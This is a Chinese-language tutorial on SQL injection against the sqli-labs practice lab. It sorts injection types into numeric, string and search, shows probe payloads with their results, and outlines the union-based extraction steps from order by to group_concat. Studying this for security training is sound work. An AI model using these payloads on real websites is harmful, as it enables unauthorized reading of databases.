 ## SQL注入分类

### 按注入点类型分类

#### 数字型注入

| **payload**                                    | **返回结果** |
| ---------------------------------------------- | ------------ |
| http://[靶机IP]/sqli-labs/Less-2/?id=1'        | 返回错误     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1 and 1=1 | 运行正常     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1 and 1=2 | 运行异常     |

#### 字符型注入

| **payload**                                        | **返回结果** |
| -------------------------------------------------- | ------------ |
| http://[靶机IP]/sqli-labs/Less-2/?id=1'            | 返回错误     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1' and '1'='1 | 运行正常     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1' and '1'='2 | 运行异常     |

#### 搜索型注入

- 此类注入点提交的 SQL 语句，其原型大致为: select * from 表名 where 字段 like '%关键字%'    
- 当我们提交注入参数为 keyword='and[查询条件] and %'=' ，则向数据库提交的SQL语句为: select * from 表名 where 字段 like '%' and[查询条件] and '%'='%'

### 按注入技术分类

- 基于布尔的盲注：可以根据返回页面判断条件真假的注入
- 基于时间的盲注：不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断
- 基于报错的注入：即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中
- 联合查询注入：可以使用union的情况下的注入
- 堆查询注入：同时执行多条语句的注入

## SQL基本注入流程

（以下根据基于联合查询的sql注入总结）

1. 判断是否存在注入点;

2. 判断字段数; order by

3. 判断字段回显位置;   and 1=2 union select 1,2,3 

4. 判断数据库信息;information_schema; database()

5. 查找数据库名;利用**group_concat()**

6. 查找数据库表;
